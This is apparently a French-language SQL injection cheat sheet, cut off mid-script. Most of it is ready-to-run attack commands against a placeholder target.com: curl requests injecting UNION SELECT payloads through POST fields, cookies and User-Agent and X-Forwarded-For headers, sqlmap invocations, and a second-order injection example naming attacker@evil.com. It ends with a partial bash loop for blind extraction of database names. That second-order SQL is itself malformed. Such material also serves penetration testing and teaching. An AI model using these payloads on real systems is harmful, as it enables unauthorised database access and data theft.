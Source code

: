 ## 🔍 Injection SQL en Contexte

### POST Data Injection
```bash
# Test avec curl
curl -X POST -d "username=admin'&password=password" http://target.com/login.php

# Injection dans le champ username
curl -X POST -d "username=admin' UNION SELECT 1,2,3--&password=anything" http://target.com/login.php

# Avec SQLMap
sqlmap -u "http://target.com/login.php" --data="username=admin&password=admin" -p username
```

### Cookie Injection
```bash
# Test manual
curl -H "Cookie: user_id=1' UNION SELECT 1,2,3--" http://target.com/profile.php

# Avec SQLMap
sqlmap -u "http://target.com/profile.php" --cookie="user_id=1" -p user_id
```

### Header Injection
```bash
# User-Agent injection
curl -H "User-Agent: Mozilla' UNION SELECT 1,2,3--" http://target.com/page.php

# X-Forwarded-For injection
curl -H "X-Forwarded-For: 127.0.0.1' UNION SELECT 1,2,3--" http://target.com/page.php
```

## 🛡️ Second Order SQL Injection

**Plus complexe** - L'injection se produit lors d'une requête différente

```sql
-- 1. Injecter dans le profil utilisateur
UPDATE users SET email='attacker@evil.com' UNION SELECT password FROM admin_users-- WHERE id=1

-- 2. L'injection se déclenche quand l'email est utilisé ailleurs
-- Par exemple dans un rapport admin qui affiche les emails
```

## 🔬 Blind SQL Injection Manuel

### Boolean-Based Step by Step
```bash
#!/bin/bash
# Script pour extraire des données en blind injection

target="http://target.com/page.php?id=1"
result=""

# Extraire le nom de la première base de données
for i in {1..20}; do
    for char in {a..z} {0..9}; do
        url="$target' AND (SELECT SUBSTRING(schema_name,$i,1) FROM information_schema.schemata LIMIT 1)='$char'--"
        response=$(curl -s "$url")
        
        if [[ $response == *"expected_content"* ]]; then
```